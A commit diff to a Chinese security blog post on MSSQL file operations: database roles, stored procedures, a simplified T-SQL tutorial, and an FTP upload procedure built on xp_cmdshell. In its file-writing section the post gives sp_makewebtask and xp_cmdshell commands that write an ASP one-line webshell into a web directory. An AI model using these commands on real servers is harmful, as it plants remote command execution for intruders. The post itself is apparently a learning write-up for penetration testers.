

Before and after one commit to volcanohatred/volcanohatred.github.io, a Jekyll site: the page built from _posts/2019-02-19-MSSQL文件操作分析.md, in a window 1280 px wide and 1400 px high, scrolled down 2250 px. Shown: the whole window at 93% size, without its empty margins (233-1222 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2019-02-19-MSSQL文件操作分析.md

````diff
--- a/_posts/2019-02-19-MSSQL文件操作分析.md
+++ b/_posts/2019-02-19-MSSQL文件操作分析.md
@@ -10,7 +10,7 @@ tags:
     - web渗透
 ---
 
-前几天有一个面试，面试官问到一个问题，是关于mssql注入。当时信号不好没太听清楚，就瞎答，说到通过mssql写文件的时候，卡住了。之前在渗透测试中碰到过拿到mssql数据库密码然后上传木马的情况。只不过是借助工具进行上传，没有深刻理解原理，导致场面一度很尴尬。所以还得继续学习啦。
+前几天有一个面试，面试官问到一个问题，是关于mssql注入。当时信号不好没太听清楚，就瞎答，说到通过mssql写文件的时候，卡住了。之前在渗透测试中碰到过拿到mssql数据库密码然后上传木马的情况。只不过是借助工具进行上传，没有深刻理解原理，导致场面一度很尴尬。所以还得继续学习啦。本文就说说关于mssql操作文件的方法和其依赖的基础。
 ### MSSQL数据库权限
 sa：数据库操作，文件管理，命令执行，注册表读取等
 db：文件管理,数据库操作等
@@ -24,18 +24,19 @@ dbcreator：创建和修改数据库
 diskadmin：管理磁盘文件
 ### MSSQL存储过程
 1. 系统存储过程
-系统存储过程以前缀"sp_"来标识。系统存储过程是 SQL Server系统自身提供的存储过程，可以作为命令执行各种操作。
+以前缀"sp_"来标识，系统存储过程是 SQL Server系统自身提供的存储过程，可以作为命令执行各种操作。
 2. 用户存储过程
-自定义存储过程即用户使用T_SQL语句编写的、为了实现某一特定业务需求，在用户数据库中编写的T_SQL语句集合，自定义存储过程可以接受输入参数、向客户端返回结果和信息，返回输出参数等。创建自定义存储过程时，存储过程名前加上"##"表示创建了一个全局的临时存储过程;存储过程前面加上"#"时，表示创建的局部临时存储过程。局部临时存储过程只能在创建它的回话中使用，会话结束时，将被删除。这两种存储过程都存储在tempdb数据库中。
+用户自定义存储，需要一定语法格式支持，下文介绍。
 3. 扩展存储过程
-扩展存储过程以前缀"xp_"来标识。扩展存储过程是以在SQL SERVER环境外执行的动态连接(DLL文件)来实现的，可以加载到SQL SERVER实例运行的地址空间中执行。扩展存储过程可以用SQL SERVER扩展存储过程API编程。
+以前缀"xp_"来标识。扩展存储过程是以在SQL SERVER环境外执行的动态连接(DLL文件)来实现的，可以加载到SQL SERVER实例运行的地址空间中执行。扩展存储过程可以用SQL SERVER扩展存储过程API编程。
 
 ### 通过MSSQL写文本文件
 sa权限下，可以使用sp_makewebtask，xp_cmdshell
 ```
 sp_makewebtask
 exec sp_makewebtask  '可读写路径','select''<%execute(request("cmd"))%>'''
-
+```
+```
 xp_cmdshell
 exec xp_cmdshell 'echo "<%execute(request("cmd"))%>">> 可读写路径)'
 ```
@@ -77,135 +78,41 @@ CREATE { PROC | PROCEDURE } [schema_name.] procedure_name [ ; number ]
 ```
 sp_procoption [ @ProcName = ] 'procedure' , [ @OptionName = ] 'option'    , [ @OptionValue = ] 'value' --过程的名称、option 的唯一值为 startup、设置为开启（true 或 on）还是关闭（false 或 off）。
 ```
-用TSQL语句编写存储过程
-一、变量和参数
-DECLARE 语句通过以下操作初始化 Transact-SQL 变量：
-指定名称。名称的第一个字符必须为一个 @。
-指定系统提供的或用户定义的数据类型和长度。对于数值变量还指定精度和小数位数。对于 XML 类型的变量，可以指定一个可选的架构集合。
-将值设置为 NULL。
-如：DECLARE @MyCounter int
-第一次声明变量时，其值设置为 NULL。若要为变量赋值，请使用 SET 语句。这是为变量赋值的首选方法。也可以通过 SELECT 语句的选择列表中当前所引用值为变量赋值。
-参数用于在存储过程和函数以及调用存储过程或函数的应用程序或工具之间交换数据：
-输入参数允许调用方将数据值传递到存储过程或函数。
-输出参数允许存储过程将数据值或游标变量传递回调用方。用户定义函数不能指定输出参数。
-每个存储过程向调用方返回一个整数返回代码。如果存储过程没有显式设置返回代码的值，则返回代码为 0。
-二、流程控制语句
-1、BEGIN 和 END 语句
-BEGIN 和 END 语句用于将多个 Transact-SQL 语句组合为一个逻辑块。在控制流语句必须执行包含两条或多条 Transact-SQL 语句的语句块的任何地方，都可以使用 BEGIN 和 END 语句。
-如：
+上面一大堆挺多的，先说说基本的使用：
 ```
-IF (@@ERROR <> 0)
-BEGIN
-      SET @ErrorSaveVariable = @@ERROR
-      PRINT 'Error encountered, ' +
-     CAST(@ErrorSaveVariable AS VARCHAR(10))
-END
+　　create procedure test（自定义名称）
+　　as
+　　select * from .... （要执行的sql语句）
+go
 ```
-2、GOTO 语句
+这就是一个简单的存储过程。下面可以输入：execute test即可执行。
+需要注意，执行的时候我们只需要execute（执行） 存储过程名,就可以了。procedure 和 execute 可以分别缩写为 proc 和 exec。
+上面的例子没有带参数，下面说一个带参数的例子：
 ```
-               GOTO 语句使 Transact-SQL 批处理的执行跳至标签。不执行 GOTO 语句和标签之间的语句。
-       IF(1=1)
-    GOTO calculate_salary
-    print 'go on' --条件成立则跳过此句。
-       calculate_salary:
-     print 'go to'
+　　create proc test
+　　@ var varchar(10)
+as
+select * from student where sno = @ ssno
+go
 ```
-3、IF...ELSE 语句
-IF 语句用于条件的测试。得到的控制流取决于是否指定了可选的 ELSE 语句：
+＂@ 变量名＂是sql 中用来表示用户自定义的参数的方法,＂@@变量名＂,用来表示系统自带的，不能随便改动。执行带参数的存储过程,需要使用如下语句：
 ```
-    if(1=1)
-     print 1
-    else if(2=2)
-     print 2
-    else if(3=3)
-     print 3
-    else
-     print 0
+exec test 值
 ```
-4、RETURN 语句
-RETURN 语句无条件终止查询、存储过程或批处理。存储过程或批处理中 RETURN 语句后面的语句都不执行。当在存储过程中使用 RETURN 语句时，此语句可以指定返回给调用应用程序、批处理或过程的整数值。如果 RETURN 未指定值，则存储过程返回 0
-5、WAITFOR 语句
-WAITFOR 语句挂起批处理、存储过程或事务的执行，直到发生以下情况：
-已超过指定的时间间隔。
-到达一天中指定的时间。
-指定的 RECEIVE 语句至少修改一行或并将其返回到 Service Broker 队列。
-WAITFOR 语句由下列子句之一指定：
-DELAY 关键字后为 time_to_pass，是指完成 WAITFOR 语句之前等待的时间。完成 WAITFOR 语句之前等待的时间最多为 24 小时。
-如：
+也可以不带参数,但是必须在创建存储过程中加参数赋值,可以赋Null。
+在网上看到一篇文章，讲的是游标的存储过程，贴出来：[游标的存储过程](http://wyb0.com/posts/sqlserver-stored-procedure/")
+另外，变量分为全局和局部，和其他语言一样，像上面的'@ var varchar(10)'就是全局变量，局部变量的命名使用Declare命令：declare{@变量名 数据类型}
+局部变量的赋值：set{@变量名=表达式}或者select{@变量名=表达式}
+举个例子：
 ```
-      WAITFOR DELAY '00:00:02'
-      SELECT EmployeeID FROM    Employee;
-             TIME 关键字后为 time_to_execute，指定 WAITFOR 语句完成所用的时间。
-      GO
-      BEGIN
-          WAITFOR TIME '22:00';
-          DBCC CHECKALLOC;
-      END;
-      GO
+declare @var1 int
+set @var1=1
 ```
-RECEIVE 语句子句，从 Service Broker 队列检索一条或多条消息。使用 RECEIVE 语句指定 WAITFOR 时，如果当前未显示任何消息，该语句将等待消息到达队列。
-TIMEOUT 关键字后为 timeout，指定 Service Broker 等待消息到达队列的时间长度（毫秒）。可以在 RECEIVE 语句或 GET CONVERSATION GROUP 语句中指定 TIMEOUT。
-6、WHILE...BREAK 或 CONTINUE 语句
-只要指定的条件为 True 时，WHILE 语句就会重复语句或语句块。REAK 或 CONTINUE语句通常和WHILE一起使用。BREAK 语句退出最内层的 WHILE 循环，CONTINUE 语句则重新开始 WHILE 循环。
 ```
-go
-declare @Num int
-declare @ID int
-declare @i int
-set @i=1
-while(exists(select * from T where Num<5 )) --获取数量小于5的记录
-begin
-select @Num=Num,@ID=ID from T where Num<5 order by ID desc
-print Str(@i)+ '编号：'+Str(@ID)+ ' 值'+str(@Num)
-update T set Num=Num*2 where ID=@ID
-set @i=@i+1
-if(@i>3)
-     break --退出循环
-  end
+declare @var2 nvarchar(50)
+select @var2=1
 ```
-7、CASE 语句
-CASE 函数用于计算多个条件并为每个条件返回单个值。CASE 函数通常的用途是将代码或缩写替换为可读性更强的值
---用法一：
-```
-  select ID,
-    Grade=Case Num
-  when  1 then '不及格'
-  when  2 then '不及格'
-  when  3 then '不及格'
-  when  4 then '良好'
-  else '优秀'
-  end
-  from T
-```
----用法二：
-```
-  select ID,
-    Grade=Case
-  when    Num<3 then '不及格'
-  when    Num=3 then '及格'
-  when    Num=4 then '良好'
-  when    Num>4 then '优秀'
-  end
-  from T
-```
-三、运行时生成语句
-Transact-SQL 支持使用下列两种方法于运行时在 TTransact-SQL 脚本、存储过程和触发器中生成 SQL 语句：
-使用 sp_executesql 系统存储过程执行 Unicode 字符串。sp_executesql 支持与 RAISERROR 语句类似的参数替换。
-使用 EXECUTE 语句执行字符串。EXECUTE 语句不支持已执行字符串中的参数替换。
-四、处理数据库引擎错误
-在 Transact-SQL 中有两种方式可以获取错误信息：
-1、在 TRY...CATCH 构造的 CATCH 块的作用域内，您可以使用以下系统函数：
-ERROR_LINE()，返回出现错误的行号。
-ERROR_MESSAGE()，返回将返回给应用程序的消息文本。该文本包括为所有可替换参数提供的值，如长度、对象名或时间。
-ERROR_NUMBER() 返回错误号。
-ERROR_PROCEDURE()，返回出现错误的存储过程或触发器的名称。如果在存储过程或触发器中未出现错误，该函数返回 NULL。
-ERROR_SEVERITY() 返回严重性。
-ERROR_STATE()，返回状态。
-2、在执行任何 Transact-SQL 语句之后，您可以立即使用 @@ERROR 函数测试错误并检索错误号。
-RAISERROR
-RAISERROR 用于将与 SQL Server Database Engine 生成的系统错误或警告消息使用相同格式的消息返回到应用程序中。
-3、PRINT
-PRINT 语句用于将消息返回到应用程序。PRINT 采用字符或 Unicode 字符串表达式作为参数，并将字符串作为消息返回到应用程序。
+
 **应用实例**
 通过Sqlserver存储过程上传文件
 调用方式：
@@ -215,10 +122,10 @@ CREATE  proc dbo.SysFtptobak
 @Filename varchar(128), --Ftp传输的文件名字
 @FtpIp varchar(16), --Ftp服务器地址
 @FtpUser varchar(32),--服务器服务器登陆帐号
-FtpPwd varchar(32) --服务器服务器登陆帐号对应的密码
+@FtpPwd varchar(32) --服务器服务器登陆帐号对应的密码
 as
 return -1
-set nocount on
+set nocount on  当 SET NOCOUNT 为 ON 时，不返回计数（表示受 Transact-SQL 语句影响的行数）。当 SET NOCOUNT 为 OFF 时，返回计数。
 declare @cmd varchar(255), @txt varchar(255)
 declare @FtpIp varchar(16),@FtpUser varchar(32),FtpPwd varchar(32)
 exec master.dbo.xp_cmdshell 'echo user '+ @FtpUser +'>C:Dbbdk tp.scp'
````
